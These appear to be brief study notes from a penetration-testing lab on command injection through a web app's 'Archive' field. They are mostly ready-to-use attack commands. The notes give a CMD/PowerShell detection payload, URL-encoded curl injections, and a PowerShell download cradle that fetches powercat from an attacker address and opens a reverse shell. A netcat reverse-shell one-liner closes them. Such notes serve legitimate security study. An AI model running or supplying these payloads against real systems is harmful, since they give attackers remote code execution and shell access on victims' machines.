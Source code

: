 ```
we can use %3B for encoded ;
```
or && 

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

CMD depending on where it is executed

curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

encoded version 

power cat for reverse shell netcat for windows

```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```
this copy powercat to home directory of user

we can then start python3 webserver on the same directory

need to also start netcat listener

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```
powershell download cradle to load powercat function in powercat from our server. second command to create reverse shell with -c of where to connect -p for port and -e for the program

```
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```
encoded curl version

```
normal netcat can just
```
nc <ip> <port> -e /bin/bash for reverse shell